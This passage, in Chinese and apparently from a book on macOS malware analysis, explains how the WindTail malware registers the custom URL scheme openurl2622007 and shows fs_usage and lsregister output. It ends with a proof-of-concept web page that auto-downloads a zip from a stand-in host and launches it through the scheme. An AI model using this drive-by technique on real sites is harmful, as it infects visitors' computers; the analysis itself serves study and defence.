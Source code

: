 列表 1-2：一个包含自定义 URL 方案 `openurl2622007`（WindTail）的*Info.plist* 文件

特别注意 `CFBundleURLTypes` 数组的存在，该数组包含 WindTail 支持的 URL 方案列表。在这个列表中，我们找到一个条目描述了 URL 方案，其中包括一个 `CFBundleURLSchemes` 数组，包含支持的方案：`openurl2622007`。在 Safari 自动解压应用程序后，macOS 启动服务守护进程（`lsd`）会解析应用程序，提取任何自定义 URL 方案，并将它们注册到启动服务数据库中。该数据库 *com.apple.LaunchServices-231-v2.csstore* 存储了诸如应用程序与 URL 方案映射等信息。您可以通过文件监控工具，如 macOS 的 `fs_usage`，被动地观察守护进程的文件操作（清单 1-3）：

```
# **fs_usage -w -f filesystem**
open  (R_____)  ~/Downloads/Final_Presentation.app   lsd
open  (R_____)  ~/Downloads/Final_Presentation.app/Contents/Info.plist   lsd

PgIn[A] /private/var/folders/pw/sv96s36d0qgc_6jh45jqmrmr0000gn/0/
         com.apple.LaunchServices-231-v2.csstore   lsd
```

清单 1-3：观察启动服务守护进程（`lsd`）的文件 I/O 事件

在这个输出中，您可以看到 macOS 内置的文件监控工具（`fs_usage`）捕获启动服务守护进程（`lsd`），打开并解析恶意应用程序，并访问启动服务数据库（*com.apple.LaunchServices-231-v2.csstore*）。接下来，如果我们通过 `lsregister` 命令打印出数据库内容，可以看到一个新条目将恶意应用程序 *Final_Presentation.app* 映射到 `openurl2622007` 自定义 URL 方案（清单 1-4）：

```
% **/System/Library/Frameworks/CoreServices.framework/Versions/A/Frameworks/**
**LaunchServices.framework/Versions/A/Support/lsregister -dump**

BundleClass: kLSBundleClassApplication
...
path: ~/Downloads/Final_Presentation.app
name: usrnode

claimed schemes:            openurl2622007:
-------------------------------------------
claim id:                   Local File (0xbee4)
localizedNames:             "LSDefaultLocalizedValue" = "Local File"
rank:                       Default
bundle:                     usrnode (0x8c64)
flags:                      url-type (0000000000000040)
roles:                      Viewer (0000000000000002)
bindings:                   openurl2622007:
```

清单 1-4：WindTail（*Final_Presentation.app*），现在作为自定义 URL 处理程序注册

现在操作系统已自动将恶意软件注册为 `openurl2622007` 自定义 URL 方案的处理程序，它可以直接从恶意网站启动。

清单 1-5 中的概念验证代码完全模仿了 WindTail 一旦用户访问其恶意网站后如何感染用户：

```
<html>
1 <body id="b" onload="exploit();"></body> 

<script type="text/javascript">
  function exploit () {
     var a = document.createElement("a");
     var x = document.getElementById("b");

     a.setAttribute("href","https://foo.com/malware.zip");
     a.setAttribute("download", "Final_Presentation");
     x.appendChild(a);

   2 a.click(); 

     // wait for download and extraction to complete...

   3 location.replace("openurl2622007://"); 
  }

</script>
```